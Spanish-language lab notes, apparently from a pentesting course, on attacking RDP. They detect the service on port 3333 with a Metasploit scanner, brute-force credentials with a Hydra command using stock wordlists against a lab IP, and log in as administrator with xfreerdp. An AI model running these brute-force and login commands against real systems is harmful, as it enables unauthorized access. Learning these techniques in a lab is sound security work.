 Por lo general, el protocolo RDP corre sobre el puerto 3389, pero es posible que corra por otro puerto, por lo que podemos asegurarnos de que un puerto es el RDP con metasploit:
![[Pasted image 20240615211957.png]]

Usaremos el siguiente módulo de metasploit:

```python
use auxiliary_scanner/rdp/rdp_scanner
```

![[Pasted image 20240615212028.png]]

Y ahora con hydra podemos hacer el ataque de fuerza bruta con estos parámetros:

```python
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.28.92 -s 3333
```

Y nos encuentra los siguientes usuarios:
![[Pasted image 20240615212052.png]]

Ahora para conectarnos de forma remota, podemos usar una herramienta llamada xfreerdp:

```python
xfreerdp /u:administrator /p:qwertyuiop /v:10.2.28.92:3333
```

![[Pasted image 20240615212110.png]]

Y ya habremos entrado:
![[Pasted image 20240615212117.png]]